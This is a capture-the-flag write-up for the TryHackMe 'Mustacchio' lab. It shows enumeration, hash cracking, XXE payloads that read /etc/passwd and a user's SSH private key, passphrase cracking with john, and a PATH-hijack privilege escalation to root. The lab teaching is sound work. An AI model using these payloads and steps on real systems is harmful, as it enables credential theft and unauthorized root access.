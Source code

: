 # Mustacchio | THM
###  Difficulty: Easy
---------------------------------------

First, we start to enumerate the target machine with nmap:

```bash
nmap -sC -sV -p- <ip-address>
```
Results:

![image](https://cdn-images-1.medium.com/max/1000/1*YF-bOmF3rjDF9vw9fPC7Ww.png)

So, we got 3 open ports. port 22 of SSH, port 80 and port 8765 for HTTP.
I thought about running Gobuster to find a hidden directories
but as we can see there is login page in port 8765, let’s check it out:

![image](https://cdn-images-1.medium.com/max/1000/1*TmKztsvS77bBfQXcOQO2HQ.png)

mmm.. so at that point I don't know what to do. maybe I’ll try Gobuster?

```bash
gobuster dir -u <IP-address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*aHDbs3iQZ149ljeatO_bKw.png)

let's enter to the custom directory.
oh! I found an interesting file , "users.bak".

![image](https://cdn-images-1.medium.com/max/1000/1*AMQ8-73z48MEKHjV32FE1A.png)

After downloading the file, let's read it.

![image](https://cdn-images-1.medium.com/max/1000/1*1kOopkfnWH_tTbu2FqEfow.png)

we got credentials with username admin and a hash. 
I'm going to insert that hash to rainbow table: https://crackstation.net/

![image](https://cdn-images-1.medium.com/max/1000/1*mKo0PVohWF6LDlkiSse6cw.png)

So, we have username and password. Hence, it means that is the time to enter the admin panel.
After entering to the admin panel we got a comment panel and 
there is an option to include remote code execution a.k.a RCE.

![image](https://cdn-images-1.medium.com/max/1000/1*zHGYPFLXX_fjp0A_0JDlrQ.png)

Before that, let's analyze the web app to understand which vulnerability we can exploit and which code type is needed for the injection.
lets check what the response to click on submit button. after clicking it we got this alert.

![image](https://cdn-images-1.medium.com/max/1000/1*TgoQIAePBDdV-PY3GvBGww.png)

this web app isn't secure at all! it just writing us the vulnerability. lets exploit it.
But, what should I do here? maybe there is some info in the source code of that page?!

![image](https://cdn-images-1.medium.com/max/1000/1*-V9RWYUT1e3tQN2DK_t1kw.png)

So there is an interesting path to a file : "/auth/dontforget.bak" .
when insert the path in the URL, this file downloaded automatically.
lets read it:

![image](https://cdn-images-1.medium.com/max/1000/1*SW8ltX0FgS9V3RdP-Gq-sA.png)

The content of the message is irrelevant but the structure of it going to help us to inject a malicious code. 
in addition, we found a message to user Barry in the source code.
<! - Barry, you can now SSH in using your key! →
but how can I achieve that key? so I'll use the structure of the message and insert it a path to if is there any reflection..

```bash
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [
 <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 <comment>
 <name>Joe Hamd</name>
 <author>Barry Clad</author>
 <com>&xxe;</com>
 </comment>
```

so after injecting xml entity with a path to passwd ,I got a reflection!

![image](https://cdn-images-1.medium.com/max/1000/1*SHfHXKFQ2b5PBtmRtSWCjQ.png)

It's the time to travel into the SSH directory and pull the key from the reflection. just change the path:

```bash
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [
 <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
 <comment>
 <name>Joe Hamd</name>
 <author>Barry Clad</author>
 <com>&xxe;</com>
 </comment>
```

and there is the key!

![image](https://cdn-images-1.medium.com/max/1000/1*1syCElthWK9jhlwKZrmQ2g.png)

the username and the key are found. lets attack the SSH service with pass the key attack. 
copy the key and insert it to a file in your kali, the next step is to change the permissions.

```bash
chmod 600 key.txt
ssh barry@<ip-address> -i key.txt
```


oh no, there is a passphrase for the key..

![image](https://cdn-images-1.medium.com/max/1000/1*VRZSLFlPBTBKb0MJZ4v5_A.png)

but don't worry, ssh2john will solve it.

```bash
ssh2john key.txt > newkey1.txt
```

Crack it with john.
```bash
john newkey1.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

 The passphrase: 

 ![image](https://cdn-images-1.medium.com/max/1000/1*I1KWBiHMJL6UQFzpvFiisg.png)

and we are in! user.txt too!

![image](https://cdn-images-1.medium.com/max/1000/1*_m7iGJ4x0YfbbJjRZNquOQ.png)

*Privilege escalation*

Where is root.txt?
I can't find any helpful info in /home/ barry so I moved back to /home to check if is there any other user.
there is! joe. let's check which content can i find.

![image](https://cdn-images-1.medium.com/max/1000/1*41a27O-ewKMO8yE23dtQ-A.png)

I'll try that command to find suid and gid files under root:
```bash
find / -user root -perm /4000 2>/dev/null
```

Results:

![image](https://cdn-images-1.medium.com/max/1000/1*f3Yv4idHoRcP4sRPMJhEYg.png)

as we can see the path of the file is there so we can exploit it.
let's check if we got any permission on that file:

![image](https://cdn-images-1.medium.com/max/1000/1*WwhA0zVEGvaMxSBWnhqe7g.png)

so we got execute permission. it means that we can use strings too.
```bash
strings live_log
```

Results:

![image](https://cdn-images-1.medium.com/max/1200/1*EJ6m8CfCx4e1Ev85lUeReA.png)

that tail command is intersting!
what if are we going to hijack the path with binary file "tail"? lets do it.
first we need permission to write a new file so /tmp is the dir for that.
we are going to inject "/bin/bash" to that file to get root!

![image](https://cdn-images-1.medium.com/max/1200/1*Ja9hyX9Puj4uX2v-xl7UqQ.png)

open the file.
and we got it!

![image](https://cdn-images-1.medium.com/max/1200/1*hS7wjCQUcpGf8GS6JP9ppw.png)

The end!

Happy Hacking!

*Written by Alon Presman, Penetration Tester and Ethical Hacker.*

































 










































